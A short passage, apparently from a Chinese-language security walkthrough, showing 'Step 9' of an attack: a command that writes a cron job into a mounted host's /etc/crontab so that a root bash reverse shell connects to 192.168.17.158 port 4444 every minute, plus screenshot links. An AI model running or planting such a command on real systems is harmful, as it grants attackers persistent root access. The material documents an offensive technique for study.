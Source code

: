 [![](assets/1699842580-2454090321fa56c47f73f62097fcdb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165322-f3affc8e-7313-1.png)

Step 9：之后写计划任务

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.158/4444 0>&1\n" >> /mnt/etc/crontab
```

[![](assets/1699842580-c8f1250161fccedafd03ea884759528a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165345-0128d052-7314-1.png)
